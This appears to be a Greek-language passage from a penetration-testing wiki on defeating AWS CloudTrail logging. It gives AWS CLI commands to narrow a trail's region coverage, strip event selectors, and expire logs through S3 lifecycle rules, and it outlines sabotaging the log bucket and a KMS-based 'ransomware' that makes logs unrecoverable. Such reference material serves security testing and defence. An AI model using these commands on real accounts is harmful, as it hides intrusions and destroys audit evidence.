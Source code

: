 {% code overflow="wrap" %}
```bash
aws cloudtrail update-trail --name [trail-name] --no-is-multi-region --no-include-global-services
```
#### Απενεργοποίηση Καταγραφής με Επιλογείς Γεγονότων

{% code overflow="wrap" %}
```bash
# Leave only the ReadOnly selector
aws cloudtrail put-event-selectors --trail-name <trail_name> --event-selectors '[{"ReadWriteType": "ReadOnly"}]' --region <region>

# Remove all selectors (stop Insights)
aws cloudtrail put-event-selectors --trail-name <trail_name> --event-selectors '[]' --region <region>
```
{% endcode %}

Στο πρώτο παράδειγμα, παρέχεται ένας μόνο επιλεγέας γεγονότων ως πίνακας JSON με ένα μόνο αντικείμενο. Το `"ReadWriteType": "ReadOnly"` υποδεικνύει ότι ο **επιλεγέας γεγονότων θα πρέπει να καταγράφει μόνο γεγονότα μόνο για ανάγνωση** (έτσι οι πληροφορίες του CloudTrail **δεν θα ελέγχουν γεγονότα εγγραφής** για παράδειγμα).

Μπορείτε να προσαρμόσετε τον επιλεγέα γεγονότων με βάση τις συγκεκριμένες απαιτήσεις σας.

#### Διαγραφή καταγραφών μέσω πολιτικής κύκλου ζωής S3

{% code overflow="wrap" %}
```bash
aws s3api put-bucket-lifecycle --bucket <bucket_name> --lifecycle-configuration '{"Rules": [{"Status": "Enabled", "Prefix": "", "Expiration": {"Days": 7}}]}' --region <region>
```
{% endcode %}

### Τροποποίηση Ρυθμίσεων Κάδου

* Διαγραφή του S3 κάδου
* Αλλαγή πολιτικής κάδου για να απορρίπτονται οποιεσδήποτε εγγραφές από την υπηρεσία CloudTrail
* Προσθήκη πολιτικής κύκλου ζωής στον S3 κάδο για διαγραφή αντικειμένων
* Απενεργοποίηση του κλειδιού kms που χρησιμοποιείται για την κρυπτογράφηση των καταγραφών CloudTrail

### Ransomware Cloudtrail

#### Ransomware S3

Μπορείτε να **δημιουργήσετε ένα ασύμμετρο κλειδί** και να κάνετε το **CloudTrail να κρυπτογραφεί τα δεδομένα** με αυτό το κλειδί και να **διαγράψετε το ιδιωτικό κλειδί** ώστε τα περιεχόμενα του CloudTrail να μην μπορούν να ανακτηθούν.\
Αυτό είναι βασικά ένα **S3-KMS ransomware** που εξηγείται σε:

{% content-ref url="../../aws-post-exploitation/aws-s3-post-exploitation.md" %}
[aws-s3-post-exploitation.md](../../aws-post-exploitation/aws-s3-post-exploitation.md)
{% endcontent-ref %}
